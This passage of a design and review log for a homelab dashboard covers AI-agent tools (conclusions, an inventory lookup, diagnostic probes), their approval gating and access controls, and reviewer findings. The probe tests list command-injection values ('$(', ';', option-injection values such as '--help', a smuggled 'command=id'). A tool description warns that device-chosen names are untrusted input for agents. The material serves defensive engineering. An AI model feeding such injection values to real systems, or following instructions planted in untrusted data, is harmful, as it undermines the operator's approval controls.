  `conclusion-review.svg`) shows the draft review card with synthetic data
  (`sess-f13-nginx`, `web01`, `192.0.2.10`). The build box has no browser, so
  it is rendered from the shipped markup/CSS palette through SVG + sharp
  rather than captured from a live session; the strings match the node
  harness fixture.
* **Tests**: `tests/test_f13_session_conclusions.py` (22) — refs (foreign,
  unknown, malformed), outcome/length/tag limits, ownership (ownerless
  sessions stay usable), draft replacement, confirmed finality, reject then
  re-draft, confirm/edit only on a draft, only-confirmed retrieval, the FTS
  ranking smoke test, write/read scrubbing, the 5-item cap, promotion
  (verbatim command + breakdown + refs, tool steps, instructions, dead ends,
  requires confirmed and candidate), runbook search/tags/get, the MCP tools
  and the summary reminder, the API review/promote path and its 404/409s,
  session auth, and a node harness for escaping and the card's states and
  buttons. `tests/test_omada_mcp.py`'s per-integration tool set gains the
  four new built-ins.

**Decisions**

* A confirmed conclusion is immutable for its agent; the operator can still
  edit a draft before confirming. Rejecting a draft lets the same agent try
  again (a new draft, same row).
* `session_conclude` requires the session to exist and, when it has an owner,
  requires the caller to be that owner. Ownerless sessions (an adopted chat
  id) stay usable, matching the pre-SR2 plan rule.
* The four knowledge tools are in `_ALWAYS_ALLOWED` with the session tools:
  they are session-scoped or read only confirmed, operator-approved material,
  and an allowlist that cannot see `session_conclude` could never record a
  conclusion. `session_conclude` writes a *draft*, never an approval.
* `similar_incidents` quotes its FTS terms (implicit AND) so a query with FTS
  syntax cannot error the tool; an empty query returns nothing rather than
  everything.
* The FTS index is standalone (not `content=` external) so `rowid` is always
  the conclusion id; the database module keeps it in sync on write and edit.
  A SQLite build without FTS5 would fail at table creation, which is correct
  for a chunk that requires it (the venv's SQLite has it).

`bash scripts/verify.sh`: `2032 passed, 3 skipped, 7 warnings in 415.73s (0:06:55)`.

### Reviewer notes

**Round 1 (2026-11-09): approved and merged.** 178 F13, F6 and MCP tests
pass locally. What I checked and what holds:

* Refs are validated against the session.
* Only `confirmed` items are retrievable.
* FTS terms are quoted (`_fts_match`), so agent text cannot inject FTS
  syntax.
* Secrets are scrubbed on write and on read.
* Agent text in the review UI is escaped (harness).
* Status changes are conditional.

Follow-ups (S, non-blocking):

* **S1** Ownership in `save_conclusion` is `owner and agent != owner`, so an
  ownerless session takes a draft from anyone. That is harmless (the
  operator reviews every draft), but make it fail closed for consistency
  with F3's SR2.
* **S2** `search_runbooks` matches the whole query as one LIKE phrase.
  Search per term (or through FTS) so that "nginx 502" finds a runbook
  mentioning both words apart.
* **S3** Confirmed runbooks are later read by other agents, so a confirmed
  text is effectively an instruction to them. The operator's Confirm is the
  only gate; say so in the review UI ("agents will follow this").

### Round 2 — the reviewer follow-ups S1–S3

Three small changes, each with its test; no schema change and no new tool.

* **S1 — ownership fails closed.** `validate_payload` refused only when the
  session had an owner and it differed, so an ownerless session accepted a
  draft from any agent. It now refuses **whenever there is no owner** or the
  owner differs (`session_not_yours`), matching F3's SR2 rule: a conclusion is
  read by other agents later, so no one may write one into a session that has
  nobody to vouch for the caller. The old "an adopted chat id stays usable"
  rule is retired. Test: `test_f13_ownerless_session_is_refused_closed`, both
  through `save_conclusion` and through `session_conclude`.
* **S2 — runbook search matches per term.** `search_runbooks` compared the
  whole query as one `LIKE '%…%'` over four columns, so "nginx 502" only
  matched a runbook that contained that exact phrase in one field. The query
  is split on whitespace (at most 8 terms, `MAX_TERMS`) and every term must
  match at least one of title / when-to-use / tags / summary — an `AND` of
  per-term `OR`s, still parameterised. Test:
  `test_f13_runbook_search_matches_each_term` (terms across fields, an
  unmatched term excludes, spacing/order/duplicates are harmless).
* **S3 — the Confirm button says what it does.** The draft card now shows
  "Agents will follow this once confirmed." next to Confirm
  (`.cc-hint`, muted, 11 px). A confirmed card does not repeat it. Test: the
  node harness asserts the hint is in the draft markup and not in the
  confirmed one.

`bash scripts/verify.sh`: `2333 passed, 7 warnings in 445.03s (0:07:25)`.

**Follow-ups review (2026-11-09): approved and merged.** S1 fails closed for
ownerless sessions, tested through the core call and the MCP tool. S2's
per-term `LIKE`s stay parameterised and capped at 8. S3 uses existing tokens
(`--text-micro`, `--text-quiet`). A user's `%` or `_` in a search term still
acts as a `LIKE` wildcard. That is harmless (it only widens a search of
confirmed runbooks), and it is left as it is.

---

## Chunks F14–F17 — Structured tools (all agents) and local-model support

**Re-scoped 2026-11-10.** F14–F16 are main-line work, not only local-model
support: probes and recipes cut approval prompts for every agent, Hermes
included, because free-form read shell rarely fits the read lane. They are
ordered with the main line in § 9. Only F17 (and the parked F20) is the
local-model experiment, and it goes last.

Goal: let a small local model (e.g. a 14–20B model in LM Studio on a 16 GB GPU)
handle routine homelab support by moving the intelligence to **authoring time**:
a strong model or the operator works something out once, Eshu stores it as
reviewed building blocks, and the local model picks one and fills in parameters.
Small models do well with **few tools, short descriptions, small structured
results, and no free-form shell**. Every chunk below is built around that.

Shared rules for F14–F17:

* **Token budget.** Every result an agent sees is compact JSON under a stated
  cap. When it is cut, it says so (`"truncated": true`) and says how to ask
  for more.
* **Reads go through `core/read_policy.py`** (§ 2.6a): integration reads
  through `is_read_integration_call`, and SSH reads through `is_read_ssh`
  (F4).
* **No new execution path.** F14 reads integrations. F15 and F16 run SSH
  only through the F12 runner and the normal approval path. Nothing here
  bypasses freeze, Zero-Trust, the blocklists or JIT.

---

## Chunk F14 — Inventory (`whereis`) · slug `inventory` · dashboard + MCP

### Goal

One lookup answers "where is X?" for a service, host, container, IP or name:
which host it runs on, its container or VM id, its IPs, the URLs and FQDNs that
point at it, its proxy entry and DNS records, and whether an Eshu gateway is
on it.

### Design

* **Sources**, read-only and each optional (skipped if the integration is not
  configured):
  * **Eshu:** gateways (ip, hostname), F7 inner targets.
  * **Proxmox:** `get_cluster_resources` (node, vmid, name, type, status).
    Guest IPs come from `get_container_status` / agent data where present.
  * **NPM:** `proxy_hosts` (domain names → forward host:port, SSL).
  * **Pi-hole:** local DNS records. **Add** a read tool `local_dns_records`
    to `pihole_seed.py` (v6 `GET /api/config/dns/hosts` and
    `cnameRecords`). It must pass Chunk H's read check.
  * **Omada:** `list_known_clients` (name, MAC, IP, last seen).
  * **HA:** optional, add-on slugs only, after F9.
* **Refresh:** a background job every 15 min (setting, 5–120) plus a manual
  "refresh now". Each source is cached in `inventory_items(source, kind, key,
  name, ips, fqdns, host, vmid, url, extra_json, seen_at)`. A failed source
  keeps its last good rows and is reported as stale.
* **Join** on IP first (gateway ↔ Proxmox guest ↔ Omada client ↔ NPM forward
  host ↔ Pi-hole record), then on a normalised name. The result is an
  **entity** with the fields above and the list of sources that contributed.
  Conflicts (two sources disagree on an IP) are shown, not resolved.
* **MCP tool** `whereis(query)`: exact or substring match over name, FQDN, IP,
  vmid and MAC. It returns up to 5 entities, each ≤ 600 chars, with `sources`
  and `stale` flags. It is always allowed, the same as for `session_begin`.
  It goes through agent policy like any tool.
* **UI:** an Inventory page (or a tab under Integrations). It has a search
  box, an entity list showing source chips, and a stale badge on each source.
  Every string is escaped.

### Tests to add

* A join fixture with synthetic data across all five sources (`192.0.2.x`,
  `web01`, `app.example.test`), plus a conflict case.
* A source that fails keeps its previous rows and is reported stale.
* `whereis` caps: 5 entities, each cut at 600 chars with `truncated`.
* `local_dns_records` passes `is_read_integration_call`.
* Escaping in the UI (node harness). The refresh interval is clamped.

### Compat impact

Additive. With no integrations configured, `whereis` only returns Eshu's own
gateways.

### Acceptance criteria

- [ ] Every source read goes through `read_policy.is_read_integration_call`.
- [ ] No live data in fixtures or screenshots.

### Implementer notes

**What I did**

* **`core/read_policy.py` (§2.6a)**: the same minimal, integration-half module
  the task asks for — `is_read_integration_call(tool, transport, args)` wraps
  Chunk H's `_read_only_refusal` and adds the `read_only` guard. F4's branch
  holds the full file (SSH rules); this one will be merged with it, and the
  guard must survive that merge. **Every source read goes through it**:
  `core.inventory._call_tool` refuses a source tool that is not a read before
  anything is sent.
* **`local_dns_records`** (`core/pihole_seed.py` + a handler in
  `core/tool_handlers.py`): two fixed GETs, `config/dns/hosts` and
  `config/dns/cnameRecords` (Pi-hole v6; the integration's base URL ends in
  `/api`). The payload is accepted in both shapes FTL uses — nested under
  `{"config": {"dns": {...}}}` and `"<ip> <name>"` / `"<name>,<target>"`
  strings — and returned as `{hosts: [{name, ips}], cnames: [{name, target}]}`.
  It is `read_only`, so `is_read_integration_call` passes; the description says
  it needs a v6 integration.
* **`core/inventory.py`**: five source adapters — Eshu (gateways + F7 inner
  targets), Proxmox (`get_cluster_resources`), NPM (`proxy_hosts`), Pi-hole
  (`local_dns_records`), Omada (`list_sites` then `list_known_clients` per
  site, capped at 10 sites). Each is optional; a missing integration is
  skipped, a failed one records its reason. `refresh_inventory()` swaps one
  source's rows in one transaction and records the result in
  `inventory_sources`; a failure **keeps the last good rows** and marks the
  source stale (last error, or no success for two intervals).
* **Join** (`build_entities`): union-find over `ip:<ip>`, `name:<normalised>`
  (the name, each FQDN, and an FQDN's first label when it is at least three
  characters) and `vmid:<host>:<vmid>`. An entity carries name, IPs, FQDNs,
  hosts, vmids, URLs, kinds, the contributing sources (with their staleness)
  and `conflicts` — an IP claimed by two different names is listed, never
  resolved silently.
* **`whereis(query)`**: exact matches first, then substrings, over name, IPs,
  FQDNs, vmids, hosts, URLs and the MAC/inner-target extras. Up to **5**
  entities, each trimmed under **600 characters** with `truncated` set.
* **API**: `GET /api/inventory` (snapshot + `?q=` search), `POST
  /api/inventory/refresh` (audited, synchronous — the operator pressed it),
  `POST /api/inventory/settings` (interval clamped to 5–120, default 15,
  audited). The background loop sleeps one interval before its first refresh,
  so a boot never fires source calls while the dashboard starts.
* **MCP**: `whereis` is a built-in on the shared and per-integration servers
  (and in `_ALWAYS_ALLOWED`, like `session_begin`) — it answers from Eshu's own
  cache and makes no upstream call on the request, so there is nothing for the
  agent policy to gate.
* **UI**: an Inventory page (sidebar) with a search box, the per-source chip
  row (counts and stale dashes), the interval control, "Refresh now", and one
  card per entity: name, ip/name/host/guest/url/mac facts, source chips and
  the conflict line. Every string is escaped; a stale entity is dimmed.
* **Tests**: `tests/test_f14_inventory.py` (18) — the five-source join (one
  entity, all sources), the read-only source calls, a conflict, a failed
  source keeping its rows and turning stale, Eshu-only with no integrations,
  the 5-entity and 600-character caps, matching by IP/vmid/MAC/name, interval
  clamping, `local_dns_records` passing the read check, the v6 parser on both
  payload shapes, the upstream-error path, the three endpoints (session auth
  included), and two node-harness checks (escaping; stale + conflict markers).

**Decisions**

* **HA add-on slugs are skipped**: the chunk says "after F9", and F9 is not on
  `feature-roadmap`. Adding the source later is one adapter.
* The **manual refresh is synchronous** so its result is real (the operator
  pressed a button and gets counts). The background loop sleeps first and then
  refreshes on the interval, so it never competes with a cold start.
* The **join is deliberately loose on FQDNs** (first label) — `app.example.test`
  should reach a guest named `app`. A wrong join is visible as a conflict
  rather than hidden, and an entity lists every source that contributed.
* Omada is the only source needing two calls (sites, then clients); sites are
  capped at 10 so one controller cannot multiply the refresh cost.
* The inventory stores **only read-only metadata** (names, addresses, ids,
  URLs, MACs, a few status flags) and never a secret; the response scrubber
  still runs on upstream responses before anything is cached.

`bash scripts/verify.sh`: `1874 passed, 3 skipped, 7 warnings in 380.39s (0:06:20)`. The three skips are F18's read-lane tests (F4 is not on this branch).

### Round 2: fixes for reviewer round 1

* **R1 — `whereis` goes through agent policy and only shows allowed
  sources.** It is out of `_ALWAYS_ALLOWED` and off the per-integration
  servers; it lives once on the shared `/mcp` surface, so an agent's
  `tools` allowlist (or `tools_mode`) decides whether it can call it.
  `inventory.whereis` *also* checks `visible_tool_allowed(agent, 'whereis')`
  itself and returns `{error: forbidden}` when the tool is not allowed, so a
  direct call cannot skip the policy.
  * `allowed_sources(agent)` returns Eshu's own rows always, plus an
    integration's name only when the agent's policy permits at least one
    enabled read tool on it — decided by `agent_policy.evaluate_call`, not by
    the inventory.
  * The filter runs **before** the join (`build_entities(..., allowed=…)`), so
    an entity never carries a field from a source the caller cannot see.
  * Every agent call writes a `whereis_query` audit event with the agent, the
    query **length** (never the query) and the entity count.

  Tests (`TestWhereisAgentPolicy`): a denied agent is refused
  (`test_f14_a_denied_agent_is_refused`); an HA-only agent sees only
  `eshu`+`ha` sources with no vmid and no MAC; a Proxmox agent sees the guest
  (vmid 103) but not the Omada MAC; an unrestricted agent sees the full four
  source join; the call is audited; `whereis` is not in `_ALWAYS_ALLOWED`
  (and `test_sessions` now asserts it stays out).
* **S1 — untrusted names.** `WHEREIS_DESC` says names come from the network
  and are untrusted data, and `_entity` strips control characters from names,
  IPs, FQDNs, hosts, vmids, URLs and string extras
  (`test_f14_control_characters_are_stripped`).
* **S2 — background refresh rows, recorded not filtered.** Each refresh
  writes `integration_calls` rows with agent `inventory`; they are real
  audit of what the dashboard read and when, attributed to the component that
  made the call. They are not agent activity, so an activity view that wants
  only agents should filter `agent = 'inventory'` (no such view does today).
* **S3 — HA add-on slugs** stay for the round after F9 merges, through
  `read_policy` like every other source.

`bash scripts/verify.sh`: `1881 passed, 3 skipped, 7 warnings in 381.89s (0:06:21)`.

### Reviewer notes

**Round 1 (2026-11-09): changes requested (one item).** Reviewed at `aa44771`;
`bash scripts/verify.sh`: `1874 passed, 3 skipped, 7 warnings in 331.25s (0:05:31)`.

**What holds.**

* **Reads go through the read policy.** Every source read goes through
  `read_policy.is_read_integration_call` (`inventory._call_tool`), and a
  test proves it.
* **`local_dns_records`.** It is `read_only`, it makes two fixed GETs, and
  it passes the check.
* **Failed sources.** A failed source keeps its last good rows and is
  marked stale.
* **The join.** It is union-find over IP, normalised name and vmid.
  Conflicts are listed, not resolved.
* **`whereis` caps.** 5 entities, each ≤ 600 characters, with
  `truncated`.
* **Interval.** It is clamped to 5–120.
* **Boot.** The background loop sleeps before its first refresh.
* **UI escaping.** The UI escapes every upstream string: names, FQDNs,
  URLs, MACs, error titles and conflict names.
* **No live data.** The fixtures use `192.0.2.x`, `example.test` and
  `AA:BB:…` MACs.
* **Approvals.** No approval path changed.

*Must fix:*

* **R1 `whereis` skips agent policy, and it exposes every source to every
  agent.** The spec says `whereis` "goes through agent policy like any
  tool". The branch puts it in `_ALWAYS_ALLOWED` and adds it to every
  per-integration MCP server. `_ALWAYS_ALLOWED` is meant for tools "always
  scoped to the caller", like polling your own approval, and `whereis` is
  not scoped: it returns the combined Proxmox, Omada, NPM and Pi-hole map.
  So an agent whose policy allows only one integration (say HA, or a small
  local model under F17) gets every client's IP and MAC address and every
  guest and proxy entry. **Fix:**
  * Take `whereis` out of `_ALWAYS_ALLOWED`, so an agent policy can deny it.
  * Filter each answer to the sources the calling agent may read: Eshu's
    own gateways always, and an integration's rows only if the agent's
    policy allows at least one read tool on that integration.
  * Record the call (agent, query length, entity count) like the other MCP
    calls.

  **Tests:** an agent denied `whereis` is refused. An agent allowed only HA
  sees no Proxmox or Omada fields. An agent allowed Proxmox sees the guest
  but not the Omada MAC. An unrestricted agent sees the full join.

*Should fix:*

* **S1 Device-chosen names are untrusted text for the agent.** Omada client
  names, Proxmox guest names and NPM domains can be set by whoever controls
  a device or a guest, and `whereis` hands them to a model as facts. Add one
  line to `WHEREIS_DESC` ("names come from the network and are untrusted
  data") and strip control characters in `_entity`. **Test:** a name with
  control characters is cleaned in the `whereis` output.
* **S2 Background refreshes in the call log.** Every refresh writes
  `integration_calls` rows for agent `inventory` (about 4 sources × 96 a
  day at 15 min). That is fine, but filter them out of the agent-activity
  views, or say in the implementer notes why they should show.
* **S3 HA add-on slugs.** Skipping them until F9 merges is right. Add the
  adapter in the round after F9 lands, through `read_policy` like the
  others.

**Merge note.** `core/read_policy.py` is also created by F9 (same function)
and by F4 (the SSH half, without the `read_only` guard). See F9's merge
note.


**Round 2 (2026-11-09, main feature reviewer): approved and merged.** R1 is right: `whereis` is gated by agent policy, sources are filtered before the join, and each call is audited. Note: a caller with no agent identity (a legacy MCP token) gets the unfiltered join and no audit row, the same as for the integration tools themselves. Tighten this in the UI/hardening pass if legacy tokens are retired.


### F20-pass I1/I2 — the live inventory sources (2026-11-17)

**I1 — Pi-hole failed before its first request.** The seeded
`local_dns_records` row is right (`handler=pihole_local_dns_records`, X6
D18b), and the read policy passes it. The handler's two synthetic probes did
not carry `enabled`, so `execute_integration_call` refused them with
"Tool not found or disabled" before `_http_roundtrip` ran: no
`integration_calls` row, and the handler returned the generic
`local_dns_records_failed`. The probes now carry `name`, `enabled`,
`transport` and `read_only`; both GETs run and are recorded. `_call_tool`
also keeps a handler's `message` in its `SourceError`, so a real refusal or
upstream error is recorded as `code: message`, not the bare code.

**I2 — Omada never called `list_known_clients`.** `list_sites` returns
`siteId`, but the adapter tested `site.get('id')`, so every site was
skipped and the source recorded success with zero items. The adapter now
accepts `siteId`, `id` or `site_id` before the per-site call.

**Tests.** `TestRealSourcePath` fakes `_http_roundtrip` (not `_call_tool`),
so the real adapter, read policy, handler/probe and response transform run:
synthetic Pi-hole v6 host/CNAME payloads yield `host:*` / `cname:*` rows and
record both integration calls; a 404 records
`local_dns_records_failed: <upstream message>` in `last_error`; synthetic
Omada `siteId` + clients yield a `client` row and prove `site-1` reached
`list_known_clients`. All addresses are `192.0.2.x` and all names
`*.example.test`. Each test fails on the pre-fix code.

**Review (2026-11-17): approved and merged.** Both causes match what the
live system showed. The Pi-hole sources failed with no recorded call, and
Omada called `list_sites` on every refresh but never `list_known_clients`.
The fix is small and the tests drive the real call path. A source's
`last_error` now carries upstream text. I checked that this text is already
secret-scrubbed and capped at 300 characters before it is stored, and that
the Inventory page escapes it. Full suite: 3189 passed, 33 skipped. The fix
reaches the live system with the next dashboard deploy. After that,
`whereis` should show DNS records and Omada clients.

---

## Chunk F15 — Diagnostic probes · slug `probes` · dashboard + MCP

### Goal

One call answers "what's wrong with X?" with a short structured digest, so a
small model never has to compose a shell pipeline or read 400 log lines.

### Design

* **Probes are code, not agent text.** Each probe is a fixed list of
  read-only commands built from **typed parameters**:
  * `host`: a gateway IP from the registry
  * `unit`: a systemd unit, `^[A-Za-z0-9@._-]{1,128}$`
  * `container`: a Docker name or Proxmox vmid
  * `name`: an FQDN, `^[A-Za-z0-9.-]{1,253}$`

  Each value is validated, then shell-quoted with `shlex.quote`. Every
  generated command must pass `read_policy.is_read_ssh`. A test asserts this
  for each probe with sample parameters.
* **The set to start with:**
  * `diagnose_service(host, unit)`: `systemctl status` (capped),
    `journalctl -u unit -n 200`, restart count, ports via `ss -tlnp`.
  * `diagnose_container(host, container)`: `docker ps`/`docker logs --tail`
    or `pct status`.
  * `disk_pressure(host)`: `df -h`, `df -i`, the largest log dirs under
    `/var/log`.
  * `dns_check(name)`: the Pi-hole record (F14), and on the gateway that NPM
    reports, `getent hosts`.
* **Execution** goes through the F12 runner as normal requests. With F4 `on`
  for that host, they auto-run; otherwise they go to the normal approval
  queue as **one** grouped approval (an F3 plan the probe proposes itself).
* **Digest:** the dashboard parses the outputs (F5 results) into
  `{status, active_since, restarts_24h, errors: [{msg, count, last}],
  ports, disk, recent_changes}`.
  * Errors are de-duplicated by message after stripping numbers and hex.
  * `recent_changes` lists Eshu's own write-approved requests on that
    host in the last 24 h.
  * Hard cap 2,000 tokens, with `truncated`.
* **MCP tools:** one per probe, with short descriptions (≤ 200 chars each).

### Tests to add

* Every probe, for each sample parameter set, passes `is_read_ssh`. Hostile
  parameters (quotes, `;`, `$(`, newlines, `..`) are rejected by the type
  check before any command is built.
* Digest parsing on synthetic outputs: dedup, caps and `truncated`.
* Without F4 `on`, a probe creates one plan, not N pending requests.

### Dependencies

F12 (runner), F4 (read lane), F5 (outputs), F3 (grouped approval), F14 (for
`dns_check`).

### Implementer notes

**Code round 1 (2026-11-10) — `dashboard/core/probes.py`, five MCP tools,
`tests/test_f15_probes.py` (43 tests).** Probes are code: typed parameters in,
a fixed command list out, a capped digest back.

**The probes and their commands.** `diagnose_service`:
`systemctl is-active --no-pager <unit>`, `journalctl -u <unit> -n 200
--no-pager -o short-iso`, `ss -tlnp`. `diagnose_container`: `docker ps -a
--no-trunc` + `docker inspect <name>`, or `pct list` + `pct config <vmid>`.
`disk_pressure`: `df -h`, `df -i`, `du -x -d 1 /var/log`. `dns_check`: the
Pi-hole record only (P8's "else none").
**P1** is a per-type first-character rule: `unit` `^[A-Za-z0-9][A-Za-z0-9@._-]
{0,127}$`, a Docker name `^[A-Za-z0-9][A-Za-z0-9_.-]{0,127}$` or a vmid
`^[0-9]{3,9}$`, an FQDN of lower-cased RFC labels with no `..` and no leading
dash, and `host` must be a registered gateway IP. Every value is
`shlex.quote`d, and unknown parameters are refused (`command=id` cannot ride
along). **P2:** state comes from `systemctl is-active` (a structured word,
never prose); `systemctl status` is not used at all. **P5:** each output goes
through `core.secret_scrub.scrub_string` before parsing (test: a synthetic
`API_KEY` value never reaches the digest). **P6:** the `du` is
`-x -d 1 /var/log`. **P7:** the digest is capped at 8,000 bytes of
`json.dumps`, `truncated` is set, and the drop order is errors past the top 10
first, then ports, then the log/ps lists. **P8:** `dns_check` reports
`gateway: null` and why, and the agent cannot name a host.

**P3 — no capture dependency.** The digest is built from the F12 envelope's
output, which the runner returns whatever `/etc/eshu-capture` says, so a
gateway on `exit-only` still yields a digest. There is no silent empty digest:
a command that did not run lands in `incomplete` with its reason.

**P4 — one grouped approval.** `diagnose_*` validates, builds the commands,
and proposes **one** F3 plan (the probe's own code, not agent text) with one
item per command; the call returns `{status: pending, plan_id}` and creates no
JIT requests (test). `probe_result(plan_id)` returns `pending` until the
operator approves; then it runs each command through the F12 runner (the
approved plan claims them), builds the digest, stores it, and returns it. A
second `probe_result` returns the stored digest without re-running (test).
The agent cannot approve a plan.

**Deviation, for the reviewer — probes do not use F4's read lane.** The
outline says every generated command must pass `read_policy.is_read_ssh`, and
P2 says to use `systemctl show`. Those conflict: `read_policy` deliberately
refuses `systemctl show`, `docker logs`, `pct status` and `getent` (its
`probe class` tests pin `systemctl show nginx` as ineligible), and extending
the lane is its own reviewed surface. So probes rely on the **grouped
approval** instead of auto-run: the operator approves the exact commands,
which is stronger than lane eligibility, and no agent text reaches a shell
either way. If the reviewer prefers `active_since`/`NRestarts` in the digest,
it needs `systemctl show` in the lane (a separate change); the digest
currently carries `state`, `errors`, `ports` and `error_total`.

`bash scripts/verify.sh`: `2685 passed, 22 skipped, 7 warnings in 535.07s (0:08:55)`.

### Reviewer notes

**Pre-implementation notes (2026-11-09).** The outline is sound. Close these
points in the implementation; each needs a test. F15 starts after F12 is
merged.

* **P1 (must): no option injection through a parameter.** `shlex.quote`
  stops shell syntax but not a value starting with `-`. `unit=--help` or
  `container=-v` is one quoted word that `systemctl` or `docker` still reads
  as an option. Every type's first character must be alphanumeric:
  * `unit` `^[A-Za-z0-9][A-Za-z0-9@._-]{0,127}$`;
  * `container` is a Docker name `^[A-Za-z0-9][A-Za-z0-9_.-]{0,127}$`, or a
    vmid `^[0-9]{3,9}$`;
  * `name` uses the F16 `fqdn` rule (labels of at most 63 characters, no
    leading `-`, no `..`).
  
  Also put `--` before the operand wherever the tool accepts it.
* **P2 (must): structured sources over parsing prose.** Take state from
  `systemctl show -p ActiveState,SubState,ActiveEnterTimestamp,NRestarts
  -- <unit>`, not by parsing `systemctl status`. NRestarts is the restart
  count. Keep `status` out of the probe entirely, or use it for display only.
* **P3 (must): say what happens without output capture.** The digest needs F5
  `tail` output, and every live gateway is on `exit-only`. Pick one:
  * the probe refuses with `capture_off` and a hint; or
  * F12's per-request capture override applies to probe requests (only if
    the F12 R4 rules allow it).
  
  Never return an empty digest as if all is well.
* **P4 (must): don't block the MCP call.** Without F4 `on` (and `on` is
  locked), every probe waits for approval. `diagnose_*` returns
  `{status: "pending", plan_id}`, and `probe_result(plan_id)` returns the
  digest when it is ready. The plan is proposed by the probe's code, not by
  agent text, and an agent cannot approve it.
* **P5 (must): scrub before the digest.** `docker logs` and `journalctl`
  lines can carry tokens. Run the F5 scrubber over each output before
  parsing, and test that a synthetic token in a log line never reaches the
  digest.
* **P6 (should): bounded commands.** `du` over `/var/log` can be slow on a
  big host. Use `du -x -d 1 -- /var/log`, and rely on F19's time limit once
  it lands. Until then, document that a probe can take as long as its
  slowest command.
* **P7 (should): make the cap testable.** "2,000 tokens" should be a byte or
  character cap (for example 8,000 characters of JSON), with `truncated: true`
  and the order things are dropped in (errors beyond the top 10 first, then
  ports).
* **P8 (should):** `dns_check` must say which gateway it uses: the one F14's
  inventory maps the NPM proxy host to, else none (Pi-hole only). Never let
  the agent name it.

**Code round 1 (feature reviewer, 2026-11-10, at `5eeb5f6`): changes requested, AG1–AG7.**

The typed parameters (P1), the quoting, the cap with its drop order (P7), the
`du -x -d 1` bound (P6) and the one-plan proposal (P4) are right. The
read-lane deviation is accepted, with a smaller scope than the notes say
(see "On the deviation" below). The blocker is that the grouped approval does
not cover the commands for an agent on the default SSH mode.

* **AG1 (must, blocker): under the default `ssh_mode` (`approval`), the
  probe's plan never covers its commands.** `ssh_exec` sets `force_jit` when
  the agent's mode is `approval` (`core/ssh_exec.py`, `force_jit =
  policy['ssh_mode'] == DEFAULT_SSH_MODE`). `receive_request` then skips the
  F3 plan check (`main.py`, `if sid and not frozen and not force_jit …`).
  So for every agent left at the default:
  * the operator approves the probe's plan;
  * each command then files its own JIT request;
  * `probe_result` (`wait=False`) gets `pending` for all of them and returns
    `refused`.

  The operator is asked 1 + N times, and nothing runs. The test passes only
  because it replaces `ssh_exec` with a fake. **Fix:** the operator approved
  these exact bytes once, so the second prompt adds nothing. But letting a
  plan cover commands in `approval` mode changes what that mode means, so
  this needs the security reviewer.
  * **Proposed:** under `approval`, a plan item is claimable only when its
    plan was created by probe code. That means a server-side `origin='probe'`
    column, never the free-text `note`; the same rule as F16's V5 for recipe
    items. `normal` mode keeps today's behaviour.
  * **Test:** drive the real `receive_request` with an `approval`-mode
    agent:
    * one approval, then each command runs once;
    * an ordinary agent-proposed plan still does not cover it in `approval`
      mode;
    * a second `probe_result` runs nothing.
* **AG2 (must): `probe_result` returns a stored digest before it checks the
  session** (`probes.py` 402–405 come before the session check at 407). Any
  agent that guesses a plan id reads another session's digest: journal lines,
  ports, container lists. **Fix:** move the stored-result read after the
  session check (and bind it to the agent, as F12 does for tickets). **Test:**
  a second session gets `probe_not_found` for a finished plan.
* **AG3 (must): `dns_check` builds its own tool instead of using the
  registered one.**
  * It calls `execute_integration_call` with a hand-made tool:
    * the Pi-hole v5 path `admin/api.php?customdns`;
    * an integration loaded with `include_secret=False`.
  * Against a real v6 Pi-hole it cannot authenticate, and the path does not
    exist.
  * It also skips the tool's enabled flag and `read_policy`.
  * **Fix:** call F14's `core.inventory._call_tool(integration,
    'local_dns_records', {})`. That function is gated by
    `is_read_integration_call` and uses the v6 handler. Then parse its shape.
  * **Test:** with the tool disabled, the result says so; the record is
    found through the real handler with a stubbed upstream.
* **AG4 (must): `docker inspect` prints JSON, but `_kv` looks for
  `key=value`.** So `running` and `status` are always empty. The full
  inspect also carries `Config.Env`, often database passwords that
  `scrub_string` does not know, and F12 stores the output (`_store_result`).
  **Fix:**
  * `docker inspect --format '{{.State.Status}} {{.State.Running}} {{.RestartCount}} {{.State.StartedAt}}' NAME`;
  * `docker ps -a --filter name=^NAME$ --format '{{.Names}}\t{{.Status}}'`
    instead of every container's full command line;
  * the same narrowing for `pct`: `pct status VMID` and `pct config VMID`
    only.

  **Test:** a stubbed inspect line parses into `status`/`running`/`restarts`,
  and no `Env` text reaches the digest or the stored output.
* **AG5 (must): `recent_changes` is almost always empty.**
  * It keeps rows whose `reason` starts with `jit`, but `reason` is the
    agent's free text.
  * It reads `get_all_requests()`: the newest 200 rows from every host.
  * It does not look at writes at all.

  **Fix:** a SQL query by `target_ip` over the last 24 h, keeping rows that
  ran (`approved`/`consumed`) and that F1 labels as having a write step. The
  `command` is shown through `scrub_string`. **Test:** a write on the host
  appears; a read, another host's write, and a 25-hour-old write do not.
* **AG6 (should): the journal digest.**
  * `errors` counts all 200 lines, not errors: add `-p warning`.
  * `last` is the probe time for every row: use the line's own timestamp.
  * `_COUNTY` turns hex-looking words (`add`, `bad`, `be`, `cafe`) into
    `<n>`, so unrelated messages merge. Require at least one digit, or a
    `0x` prefix.
* **AG7 (should): `disk_pressure` and `diagnose_service` keep the first
  `df`/`ss` rows when the cap bites.** Sort `filesystems` by `use_pct`
  descending and `log_dirs` by size before capping, so the cut drops the
  least useful rows.

**On the deviation.** The notes say the probes cannot use the read lane
because P2 needs `systemctl show`. The code uses `systemctl is-active`, which
already passes `is_read_ssh`. Checked on this branch:
* **pass:** `systemctl is-active`, `ss -tlnp`, `pct list`, `docker ps -a`,
  `df -h`, `df -i` and `du -x -d 1 /var/log`;
* **refused:**
  * `journalctl … -o short-iso` (`option:-o`);
  * `pct config` (`subcommand`);
  * `docker inspect` (`sensitive-path`, which is right, since it dumps the
    env).

The lane is shadow-only and `on` is locked, so this changes nothing today.
Keep the grouped approval as the path. Add a test that records which probe
commands are lane-eligible, so a later change to either side shows up in a
diff. Dropping `-o short-iso` (and parsing the default format) would bring
the journal step into the lane; worth doing if AG6 touches that line anyway.
`active_since`/`NRestarts` are not needed for this round.

**After the fixes:** AG2–AG7 come back to the feature reviewer. AG1 is
decided by the security reviewer first: DeepSeek should implement the
proposed rule behind a test, and both reviewers read it.

**Security reviewer — AG1 decision (2026-11-10): the proposed rule is
accepted, with six conditions.**

Why it's acceptable:
* `approval` means "a human approves the exact bytes before they run".
* A plan built by server code from a probe definition (written by the
  operator), and approved on one card that lists every command, meets that.
  Asking a second time adds nothing.
* An agent-proposed plan does not meet it. Its items, hosts and `max_uses`
  are the agent's choice, and in `approval` mode the operator chose to see
  each command. So the rule turns on who **wrote** the plan, not on who
  approved it.

Conditions:
1. **Origin is written only by server code.**
   * `session_plans.origin`, `NOT NULL DEFAULT 'agent'`; every existing row
